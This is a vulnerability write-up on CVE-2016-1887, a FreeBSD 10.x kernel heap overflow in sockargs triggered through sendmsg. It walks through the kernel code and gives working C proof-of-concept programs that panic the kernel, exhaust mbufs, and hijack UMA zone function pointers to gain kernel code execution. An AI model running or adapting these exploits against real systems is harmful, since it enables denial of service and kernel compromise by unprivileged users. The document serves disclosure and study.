

sendmsg FreeBSD kernel heap overflowA kernel heap overflow was introduced to FreeBSD in release 10.0, which may be triggered by an unprivileged user under a default installation. The vulnerability doesn't require any additional kernel modules running or any configuration changes, and isn't specific to any architecture.
I reported this bug to the FreeBSD Security Team on April 27, 2016, and it was assigned CVE-2016-1887 and Security Advisory 16:19.
In this article I will aim to provide an explanation of the bug, and demonstrate its impact by using it to gain arbitrary kernel code execution as an unprivileged user. As always, since my interest is just in finding and analysing bugs, and not in publishing any fully weaponised exploit source code, I will leave any further development after this point, such as privilege escalation and cleanly restoring the corruption, as an exercise for the reader.
All details and code excerpts have been taken from FreeBSD 10.2-RELEASE (amd64) as it was the latest version when this was written. However, little of the relevant code seems to have changed since this release, other than the m_get2 function being moved from sys/kern/uipc_mbuf.c into sys/kern/kern_mbuf.c since this commit.
Since this commit from 2013, the sockargs function no longer performs a bound check on its size argument to catch negative values.
Before the faulty commit, sockargs would cast buflen to u_int for its bound checks so that a value which was negative as a signed integer would be handled as a large positive value after casting, and would result in EINVAL being returned.
int
sockargs(mp, buf, buflen, type)
struct mbuf **mp;
caddr_t buf;
int buflen, type;
{
struct sockaddr *sa;
struct mbuf *m;
int error;
if ((u_int)buflen > MLEN) {
#ifdef COMPAT_OLDSOCK
if (type == MT_SONAME && (u_int)buflen <= 112)
buflen = MLEN; /* unix domain compat. hack */
else
#endif
if ((u_int)buflen > MCLBYTES)
return (EINVAL);
}
...
}
After the commit, sockargs will accept negative values for buflen since the (buflen > MLEN) check will no longer catch them.
int
sockargs(mp, buf, buflen, type)
struct mbuf **mp;
caddr_t buf;
int buflen, type;
{
struct sockaddr *sa;
struct mbuf *m;
int error;
if (buflen > MLEN) {
#ifdef COMPAT_OLDSOCK
if (type == MT_SONAME && buflen <= 112)
buflen = MLEN; /* unix domain compat. hack */
else
#endif
if (buflen > MCLBYTES)
return (EINVAL);
}
...
}
The issue was solved by adding an explicit check in sockargs to return EINVAL for negative lengths. The official patch may be downloaded from the FreeBSD site.
Once sockargs has passed the bound checks for buflen, it will perform a zone allocation through m_get2, and then attempt to copyin to this buffer.
int
sockargs(mp, buf, buflen, type)
struct mbuf **mp;
caddr_t buf;
int buflen, type;
{
struct sockaddr *sa;
struct mbuf *m;
int error;
...
m = m_get2(buflen, M_WAITOK, type, 0);
m->m_len = buflen;
error = copyin(buf, mtod(m, caddr_t), (u_int)buflen);
if (error != 0)
(void) m_free(m);
...
return (error);
}
For negative values of size, the m_get2 function will always perform a 256 byte zone allocation on zone_mbuf (created in mbuf_init).
struct mbuf *
m_get2(int size, int how, short type, int flags)
{
struct mb_args args;
struct mbuf *m, *n;
args.flags = flags;
args.type = type;
if (size <= MHLEN || (size <= MLEN && (flags & M_PKTHDR) == 0))
return (uma_zalloc_arg(zone_mbuf, &args, how));
...
}
The size will then be casted to u_int, so a negative length such as -1 will wrap around to 0xffffffff, before being passed to copyin.
To summarise the above: by calling sockargs with a buflen of -1, a zone allocation of 256 bytes will be returned by m_get2, which will then be copied into from userland memory with a size of 0xffffffff bytes.
To reach sockargs with a user controlled buflen we use the sendmsg system call to go through sys_sendmsg -> sendit -> sockargs, with the desired buffer and length in the msg_control and msg_controllen members of struct msghdr.
We can use the sendmsg system call on a freshly created socket without any requirement to alter its state.
send() function may be used only when the socket is in a connected state, while sendto() and sendmsg() may be used at any time.
Once we call sys_sendmsg, a userland struct msghdr will be copied into msg, and its address passed onto sendit.
int
sys_sendmsg(td, uap)
struct thread *td;
struct sendmsg_args /* {
int s;
caddr_t msg;
int flags;
} */ *uap;
{
struct msghdr msg;
struct iovec *iov;
int error;
error = copyin(uap->msg, &msg, sizeof (msg));
if (error != 0)
return (error);
error = copyiniov(msg.msg_iov, msg.msg_iovlen, &iov, EMSGSIZE);
if (error != 0)
return (error);
msg.msg_iov = iov;
#ifdef COMPAT_OLDSOCK
msg.msg_flags = 0;
#endif
error = sendit(td, uap->s, &msg, uap->flags);
free(iov, M_IOV);
return (error);
}
In sendit, if the struct msghdr has a non-NULL msg_control it will perform a bound check on the msg_controllen member, and then call sockargs. An unsigned comparison will be performed here because msg_control has an unsigned type (socklen_t) and is compared against the sizeof operator (which has type size_t), meaning that this bound check won't catch negative values either.
static int
sendit(td, s, mp, flags)
struct thread *td;
int s;
struct msghdr *mp;
int flags;
{
struct mbuf *control;
struct sockaddr *to;
int error;
...
if (mp->msg_control) {
if (mp->msg_controllen < sizeof(struct cmsghdr)
#ifdef COMPAT_OLDSOCK
&& mp->msg_flags != MSG_COMPAT
#endif
) {
error = EINVAL;
goto bad;
}
error = sockargs(&control, mp->msg_control,
mp->msg_controllen, MT_CONTROL);
...
return (error);
}
sockargs has now been called with a negative length, which will trigger the vulnerability.
The following PoC code should panic vulnerable versions of FreeBSD by overflowing a 256 byte allocation on zone_mbuf with 0x4000 bytes of 'a'.
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/param.h>
#include <sys/mman.h>
#include <sys/socket.h>
#define BUFFER_SIZE 256
#define OVERFLOW_SIZE 0x4000
int main(void) {
int sock;
struct msghdr msg;
char *mapping, *buffer, *overflow;
const size_t copySize = BUFFER_SIZE + OVERFLOW_SIZE;
const size_t mappingSize = (copySize + PAGE_SIZE - 1) & ~(PAGE_SIZE - 1);
mapping = mmap(NULL, mappingSize + PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
munmap(mapping + mappingSize, PAGE_SIZE);
buffer = mapping + mappingSize - copySize;
overflow = buffer + BUFFER_SIZE;
memset(overflow, 'a', OVERFLOW_SIZE);
sock = socket(AF_INET, SOCK_STREAM, 0);
memset(&msg, 0, sizeof(msg));
msg.msg_control = buffer;
msg.msg_controllen = -1;
sendmsg(sock, &msg, 0);
munmap(mapping, mappingSize);
close(sock);
return 0;
}
Before running binaries which you expect to panic your system, it is a good idea is to set the sysctl variable kern.sync_on_panic to a non-0 value to prevent data loss.
Although the size passed to copyin will be 0xffffffff, we can reduce the size of the copy by using the same technique as described in my analysis of sys_dynlib_prepare_dlclose PS4 kernel heap overflow to cancel the call after copying a certain amount of bytes.
Essentially, by mapping the size of the copy we want plus one additional page, and then unmapping additional page, we can ensure that after copyin has copied all of the memory we desire, it will attempt to read from the unmapped userland memory following it, which will trigger a page fault, causing it to return EFAULT.
By setting up a host Unix domain socket and connecting a client, we can perform 3 allocations on zone_mbuf each time a file descriptor is transferred via sendmsg.
This can be used to manipulate the heap, to control where the mbuf used during the vulnerability will begin overflowing from.
The below PoC demonstrates this by exhausting the mbuf zone. If left for a few minutes, so that the sysctl limit for kern.ipc.nmbufs is reached, the system will become unresponsive, similar to a fork bomb.
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <netdb.h>
#include <sys/types.h>
#include <sys/param.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <sys/un.h>
#define TEMP_FILE "/tmp/mbuf.poc"
#define INFO_SIZE 0
#define INFO_LIMIT 1
#define INFO_USED 2
#define INFO_FREE 3
#define INFO_REQ 4
#define INFO_FAIL 5
int getZoneInfo(char *zname, int i) {
#define BUF_SIZE 256
#define LINE_SIZE 56
unsigned int info[6] = { 0 };
FILE *fp = NULL;
char buf[BUF_SIZE];
char iname[LINE_SIZE];
fp = popen("/usr/bin/vmstat -z", "r");
if(fp == NULL) {
perror("popen");
exit(1);
}
memset(buf, 0, sizeof(buf));
memset(iname, 0, sizeof(iname));
while(fgets(buf, sizeof(buf) - 1, fp) != NULL) {
sscanf(buf, "%s %u, %u, %u, %u, %u, %u\n", iname, &info[INFO_SIZE], &info[INFO_LIMIT],
&info[INFO_USED], &info[INFO_FREE], &info[INFO_REQ], &info[INFO_FAIL]);
if(strncmp(iname, zname, strlen(zname)) == 0 && iname[strlen(zname)] == ':') {
break;
}
}
pclose(fp);
return info[i];
}
int setupHost(struct sockaddr_un *address) {
int host = socket(AF_UNIX, SOCK_DGRAM, 0);
if(host < 0) {
perror("[-] socket");
exit(1);
}
if(bind(host, (struct sockaddr *)address, sizeof(*address)) == -1) {
perror("[-] bind");
exit(1);
}
return host;
}
int setupClient(struct sockaddr_un *address) {
int client = socket(AF_UNIX, SOCK_DGRAM, 0);
if(client < 0) {
perror("[-] socket");
exit(1);
}
if(connect(client, (struct sockaddr *)address, sizeof(*address)) == -1) {
perror("[-] connect");
exit(1);
}
return client;
}
int main(void) {
unlink(TEMP_FILE);
struct sockaddr_un cl;
memset(&cl, 0, sizeof(cl));
cl.sun_family = AF_UNIX;
strncpy(cl.sun_path, TEMP_FILE, 104);
int host = setupHost(&cl);
int client = setupClient(&cl);
struct msghdr msg = {};
char buff[CMSG_SPACE(sizeof(int))] = { 0 };
bzero(buff, sizeof(buff));
msg.msg_control = buff;
msg.msg_controllen = sizeof(buff);
struct cmsghdr *cmsg;
cmsg = CMSG_FIRSTHDR(&msg);
cmsg->cmsg_len = CMSG_LEN(sizeof(int));
cmsg->cmsg_level = SOL_SOCKET;
cmsg->cmsg_type = SCM_RIGHTS;
int transfer = open(".", O_RDONLY | O_DIRECTORY);
if(transfer < 0) {
perror("[-] open");
exit(1);
}
memcpy((int *)CMSG_DATA(cmsg), &transfer, sizeof(int));
int u, f;
while(1) {
u = getZoneInfo("mbuf", INFO_USED);
f = getZoneInfo("mbuf", INFO_FREE);
printf(" [+] Used %d, free %d\n", u, f);
ssize_t nsent = sendmsg(client, &msg, 0);
if(nsent < 0) {
if(errno == ENOBUFS) {
printf(" [+] Using new sockets after %d allocations\n", u);
unlink(TEMP_FILE);
host = setupHost(&cl);
close(client);
client = setupClient(&cl);
}
else {
perror("[-] sendmsg");
exit(1);
}
}
if(getZoneInfo("mbuf", INFO_FREE) > f) {
printf(" [+] Zone mbuf expanded\n");
}
}
return 0;
}
getZoneInfo function based on code originally written by argp.
Note that due to heap fragmentation, the m_get2 function won't necessarily return a predictable pattern of addresses, and that these addresses won't be consistent across reboots.
An example of the pattern of addresses returned to sockargs by m_get2:
0xfffff8000291ba00
0xfffff8000291bc00
0xfffff8000291c200
0xfffff8000291c500
0xfffff8000291c700
0xfffff8000291d100
0xfffff8000291d500
0xfffff8000291db00
0xfffff8000291cd00
0xfffff8000291cc00
0xfffff8000291c800
...
We can dump the memory before it has been overflown into as a guide us which structures should be crafted for the overflow, and to help identify suitible targets for gaining rip control.
To do this, put a breakpoint on the call to copyin when our overflow length is supplied:
(gdb) break *0xffffffff809c7aee
(gdb) cond 1 $rdx==0xffffffffFrom here we can dump the region which is being copied into:
dump binary memory dump.bin ($rsi) ($rsi+0x5000)I dumped from the start of the buffer, not from the overflow. You should discard the first 256 bytes of the dump if you only want to see the memory which will be overflown into.
The direct memory overflown into is the next struct mbuf on the heap which follows the allocation given to sockargs.
struct mbuf {
struct m_hdr m_hdr;
union {
struct {
struct pkthdr MH_pkthdr; /* M_PKTHDR set */
union {
struct m_ext MH_ext; /* M_EXT set */
char MH_databuf[MHLEN];
} MH_dat;
} MH;
char M_databuf[MLEN]; /* !M_PKTHDR, !M_EXT */
} M_dat;
};
The mbuf interface is widely used throughout the FreeBSD kernel networking stack, to store packets and socket buffers for example.
Depending on a few factors such as how many allocations have already been performed on the mbuf zone, and the size and contents of the overflow, we can get the system to panic at various mbuf related code paths.
unp_gc
The first place I analysed was when the system crashed at address 0xFFFFFFFF809CECD0, which is a comparison instruction with a controlled address in r11:
FFFFFFFF809CECD0 cmp byte ptr [r11+1Ch], 0Eh
This occurs in unp_gc_process with unp containing the controlled address, which is inlined into the unp_gc function in the compiled kernel.
static void
unp_gc(__unused void *arg, int pending)
{
struct unp_head *heads[] = { &unp_dhead, &unp_shead, &unp_sphead,
NULL };
struct unp_head **head;
struct file *f, **unref;
struct unpcb *unp;
int i, total;
unp_taskcount++;
UNP_LIST_LOCK();
/*
* First clear all gc flags from previous runs, apart from
* UNPGC_IGNORE_RIGHTS.
*/
for (head = heads; *head != NULL; head++)
LIST_FOREACH(unp, *head, unp_link)
unp->unp_gcflag =
(unp->unp_gcflag & UNPGC_IGNORE_RIGHTS);
/*
* Scan marking all reachable sockets with UNPGC_REF. Once a socket
* is reachable all of the sockets it references are reachable.
* Stop the scan once we do a complete loop without discovering
* a new reachable socket.
*/
do {
unp_unreachable = 0;
unp_marked = 0;
for (head = heads; *head != NULL; head++)
LIST_FOREACH(unp, *head, unp_link)
unp_gc_process(unp);
} while (unp_marked);
...
static void
unp_gc_process(struct unpcb *unp)
{
struct socket *soa;
struct socket *so;
struct file *fp;
/* Already processed. */
if (unp->unp_gcflag & UNPGC_SCANNED)
return;
fp = unp->unp_file;
/*
* Check for a socket potentially in a cycle. It must be in a
* queue as indicated by msgcount, and this must equal the file
* reference count. Note that when msgcount is 0 the file is NULL.
*/
if ((unp->unp_gcflag & UNPGC_REF) == 0 && fp &&
unp->unp_msgcount != 0 && fp->f_count == unp->unp_msgcount) {
unp->unp_gcflag |= UNPGC_DEAD;
unp_unreachable++;
return;
}
...
The only write we can control is the bitwise OR on unp->unp_gcflag:
unp->unp_gcflag |= UNPGC_DEAD;
The decompiled code from this, where x is a pointer to a 16 bit type:
*x = *x & 0xFFFC | 1;
The effect of this on the upper 2 bytes of a kernel address would be from 0xffff -> 0xfffd, so a full kernel address could convert from 0xffffffff80000000 -> 0xfffdffff80000000. If we point the address 1 byte lower, we can get from 0xffffffff80000000 -> 0xfdffffff80000000 instead. However, neither of these corrupted addresses are mappable from userland, so this isn't particularly interesting for us.
unp_dispose
The next panic analysed occurred at address 0xFFFFFFFF809CB300, which resides in the unp_dispose function.
static void
unp_dispose(struct mbuf *m)
{
if (m)
unp_scan(m, unp_freerights);
}
static void
unp_scan(struct mbuf *m0, void (*op)(struct filedescent **, int))
{
struct mbuf *m;
struct cmsghdr *cm;
void *data;
socklen_t clen, datalen;
while (m0 != NULL) {
for (m = m0; m; m = m->m_next) {
...
(*op)(data, datalen /
sizeof(struct filedescent *));
...
}
m0 = m0->m_nextpkt;
}
}
static void
unp_freerights(struct filedescent **fdep, int fdcount)
{
struct file *fp;
int i;
KASSERT(fdcount > 0, ("%s: fdcount %d", __func__, fdcount));
for (i = 0; i < fdcount; i++) {
fp = fdep[i]->fde_file;
filecaps_free(&fdep[i]->fde_caps);
unp_discard(fp);
}
free(fdep[0], M_FILECAPS);
}void
filecaps_free(struct filecaps *fcaps)
{
free(fcaps->fc_ioctls, M_FILECAPS);
bzero(fcaps, sizeof(*fcaps));
}
There is much more potential here. If we could leak the address of a kernel object containing function pointers, like a kqueue, we could cause use after free on it, which would lead to rip control.
uma_zfree_arg
I decided to try increasing the copy size past all other mbuf allocations, and discovered that by doing so we will eventually corrupt UMA metadata, which turns out to be the most easily exploitable code path.
After performing the overflow and freeing a kernel allocation which relies on the corrupted data (by closing a socket for example), the system will panic at 0xFFFFFFFF80BBF2CC in uma_zfree_arg, which is a call instruction with a user controlled address:
FFFFFFFF80BBF2CC call rax
The function pointer called is the uz_dtor member of a uma_zone_t (a typedef for struct uma_zone):
void
uma_zfree_arg(uma_zone_t zone, void *item, void *udata)
{
uma_cache_t cache;
uma_bucket_t bucket;
int lockfail;
int cpu;
...
if (item == NULL)
return;
...
if (zone->uz_dtor != NULL)
zone->uz_dtor(item, zone->uz_size, udata);
...
}Hijacking this function pointer was the method I used in my initial announcement of this research:
Kernel exploit for FreeBSD-10.2-RELEASE is happening!

— CTurt (@CTurtE) March 21, 2016
Since FreeBSD still has no support for SMAP or SMEP (although it is a planned feature of HardenedBSD), once rip control has been achieved, we can execute arbitrary userland code in kernel mode!
The below code demonstrates achieving arbitrary kernel code execution from the bug by spraying corrupted zones past the mbuf allocations.
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/param.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/param.h>
#include <sys/linker.h>
void (*critical_enter)(void);
int (*kprintf)(const char *fmt, ...);
void *resolve(char *name) {
struct kld_sym_lookup ksym;
ksym.version = sizeof(ksym);
ksym.symname = name;
if(kldsym(0, KLDSYM_LOOKUP, &ksym) < 0) {
perror("kldsym");
exit(1);
}
printf(" [+] Resolved %s to %#lx\n", ksym.symname, ksym.symvalue);
return (void *)ksym.symvalue;
}
void payload(void) {
critical_enter();
kprintf(" [+] Entered kernel payload\n");
while(1);
}
#define INFO_SIZE 0
#define INFO_LIMIT 1
#define INFO_USED 2
#define INFO_FREE 3
#define INFO_REQ 4
#define INFO_FAIL 5
int getZoneInfo(char *zname, int i) {
#define BUF_SIZE 256
#define LINE_SIZE 56
unsigned int info[6] = { 0 };
FILE *fp = NULL;
char buf[BUF_SIZE];
char iname[LINE_SIZE];
fp = popen("/usr/bin/vmstat -z", "r");
if(fp == NULL) {
perror("popen");
exit(1);
}
memset(buf, 0, sizeof(buf));
memset(iname, 0, sizeof(iname));
while(fgets(buf, sizeof(buf) - 1, fp) != NULL) {
sscanf(buf, "%s %u, %u, %u, %u, %u, %u\n", iname, &info[INFO_SIZE], &info[INFO_LIMIT],
&info[INFO_USED], &info[INFO_FREE], &info[INFO_REQ], &info[INFO_FAIL]);
if(strncmp(iname, zname, strlen(zname)) == 0 && iname[strlen(zname)] == ':') {
break;
}
}
pclose(fp);
return info[i];
}
void craftZone(void *zone) {
void **uz_slab = (void **)(zone + 200);
void **uz_dtor = (void **)(zone + 216);
void **uz_fini = (void **)(zone + 232);
void **uz_import = (void **)(zone + 240);
void **uz_release = (void **)(zone + 248);
*uz_dtor = payload;
}
int main(void) {
int sock;
struct msghdr msg;
critical_enter = resolve("critical_enter");
kprintf = resolve("printf");
const int previousAllocations = getZoneInfo("mbuf", INFO_USED);
const size_t bufferSize = getZoneInfo("mbuf", INFO_SIZE);
const size_t overflowSize = previousAllocations * bufferSize + 0x4000;
char *mapping, *buffer, *overflow;
const size_t copySize = bufferSize + overflowSize;
const size_t mappingSize = (copySize + PAGE_SIZE - 1) & ~(PAGE_SIZE - 1);
mapping = mmap(NULL, mappingSize + PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
munmap(mapping + mappingSize, PAGE_SIZE);
buffer = mapping + mappingSize - copySize;
overflow = buffer + bufferSize;
memset(overflow, 0, overflowSize);
// sizeof(struct uma_zone) == 0x300, but since we can't be certain exactly where we overflow from, we will craft at 256 byte intervals
for(size_t i = previousAllocations * bufferSize + 0xe0; i < overflowSize - 256; i += 256) {
craftZone(overflow + i);
}
sock = socket(AF_INET, SOCK_STREAM, 0);
memset(&msg, 0, sizeof(msg));
msg.msg_control = buffer;
msg.msg_controllen = -1;
printf(" [+] Performing overflow\n");
sendmsg(sock, &msg, 0);
printf(" [+] Triggering payload\n");
close(sock);
munmap(mapping, mappingSize);
return 0;
}
After returning from the payload, the system will very quickly panic with a jump to 0.
This is because some of the function pointers in struct uma_zone are assumed to be valid, and so are not checked for being non-NULL before being called (such as uz_release).
To stop this panic from occurring, we need to make sure that we overflow these function pointers with the address of some dummy function; we can leave all other members set to 0:
void craftZone(void *zone) {
void **uz_slab = (void **)(zone + 200);
void **uz_dtor = (void **)(zone + 216);
void **uz_fini = (void **)(zone + 232);
void **uz_import = (void **)(zone + 240);
void **uz_release = (void **)(zone + 248);
*uz_slab = dummy;
*uz_fini = payload;
*uz_import = dummy;
*uz_release = dummy;
}
I altered the code path that uma_zfree_arg follows slightly, and now target the uz_fini function pointer for my payload instead of uz_dtor.
After crafting valid userland addresses for these function pointers, uma_zfree_arg will return gracefully to uipc_detach before panicking when another process closes a socket and triggers the kernel jump to userland memory.
To fix the corruption, we should ideally overwrite valid zones back as soon as we gain kernel code execution. However, since my interest is just in demonstrating the impact of the bug, and not in creating fully weaponised source code, I decided to just repeat the overflow again, with different data.
As a quick demo, to prevent panics, I just decided to overwrite with pointers to an arbitrary kernel function, ata_get_xport. As a result of this, after performing the exploit, any further allocations on the affected zones will fail (the fetch command won't work for example). However, this technique is sufficient to demonstrate my chosen payload.
This final PoC demonstrates using kernel code execution to modify a read only sysctl variable, and then reading it from a separate userland process.
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/param.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/param.h>
#include <sys/linker.h>
void *(*ata_get_xport)(void);
int (*kprintf)(const char *fmt, ...);
char *ostype;
void *resolve(char *name) {
struct kld_sym_lookup ksym;
ksym.version = sizeof(ksym);
ksym.symname = name;
if(kldsym(0, KLDSYM_LOOKUP, &ksym) < 0) {
perror("kldsym");
exit(1);
}
printf(" [+] Resolved %s to %#lx\n", ksym.symname, ksym.symvalue);
return (void *)ksym.symvalue;
}
void dummy(void) {
}
void payload(void) {
kprintf(" [+] Entered kernel payload\n");
strcpy(ostype, "CTurt ");
}
#define INFO_SIZE 0
#define INFO_LIMIT 1
#define INFO_USED 2
#define INFO_FREE 3
#define INFO_REQ 4
#define INFO_FAIL 5
int getZoneInfo(char *zname, int i) {
#define BUF_SIZE 256
#define LINE_SIZE 56
unsigned int info[6] = { 0 };
FILE *fp = NULL;
char buf[BUF_SIZE];
char iname[LINE_SIZE];
fp = popen("/usr/bin/vmstat -z", "r");
if(fp == NULL) {
perror("popen");
exit(1);
}
memset(buf, 0, sizeof(buf));
memset(iname, 0, sizeof(iname));
while(fgets(buf, sizeof(buf) - 1, fp) != NULL) {
sscanf(buf, "%s %u, %u, %u, %u, %u, %u\n", iname, &info[INFO_SIZE], &info[INFO_LIMIT],
&info[INFO_USED], &info[INFO_FREE], &info[INFO_REQ], &info[INFO_FAIL]);
if(strncmp(iname, zname, strlen(zname)) == 0 && iname[strlen(zname)] == ':') {
break;
}
}
pclose(fp);
return info[i];
}
void craftCorruptedZone(void *zone) {
void **uz_slab = (void **)(zone + 200);
void **uz_dtor = (void **)(zone + 216);
void **uz_fini = (void **)(zone + 232);
void **uz_import = (void **)(zone + 240);
void **uz_release = (void **)(zone + 248);
*uz_slab = dummy;
*uz_fini = payload;
*uz_import = dummy;
*uz_release = dummy;
}
void craftZone(void *zone) {
void **uz_slab = (void **)(zone + 200);
void **uz_dtor = (void **)(zone + 216);
void **uz_fini = (void **)(zone + 232);
void **uz_import = (void **)(zone + 240);
void **uz_release = (void **)(zone + 248);
// put valid kernel address
*uz_slab = ata_get_xport;
*uz_fini = ata_get_xport;
*uz_import = ata_get_xport;
*uz_release = ata_get_xport;
}
int main(void) {
int sock;
struct msghdr msg;
ata_get_xport = resolve("ata_get_xport");
kprintf = resolve("printf");
ostype = resolve("ostype");
const int previousAllocations = getZoneInfo("mbuf", INFO_USED);
const size_t bufferSize = getZoneInfo("mbuf", INFO_SIZE);
const size_t overflowSize = previousAllocations * bufferSize + 0x4000;
char *mapping, *buffer, *overflow;
const size_t copySize = bufferSize + overflowSize;
const size_t mappingSize = (copySize + PAGE_SIZE - 1) & ~(PAGE_SIZE - 1);
mapping = mmap(NULL, mappingSize + PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
munmap(mapping + mappingSize, PAGE_SIZE);
buffer = mapping + mappingSize - copySize;
overflow = buffer + bufferSize;
memset(overflow, 0, overflowSize);
// sizeof(struct uma_zone) == 0x300, but since we can't be certain exactly where we overflow from, we will craft at 256 byte intervals
for(size_t i = previousAllocations * bufferSize + 0xe0; i < overflowSize - 256; i += 256) {
craftCorruptedZone(overflow + i);
}
sock = socket(AF_INET, SOCK_STREAM, 0);
memset(&msg, 0, sizeof(msg));
msg.msg_control = buffer;
msg.msg_controllen = -1;
printf(" [+] Performing overflow\n");
sendmsg(sock, &msg, 0);
printf(" [+] Triggering payload\n");
close(sock);
sock = socket(AF_INET, SOCK_STREAM, 0);
for(size_t i = previousAllocations * bufferSize + 0xe0; i < overflowSize - 256; i += 256) {
craftZone(overflow + i);
}
printf(" [+] Performing overflow\n");
sendmsg(sock, &msg, 0);
munmap(mapping, mappingSize);
return 0;
}This bug was a pretty standard kernel heap overflow from user controlled memory, and with a user controlled size.
I had fun analysing some of the kernel code paths reachable with user controlled values, and was ultimately able to successfully exploit the bug to gain arbitrary kernel code execution on FreeBSD 10.2-RELEASE for amd64.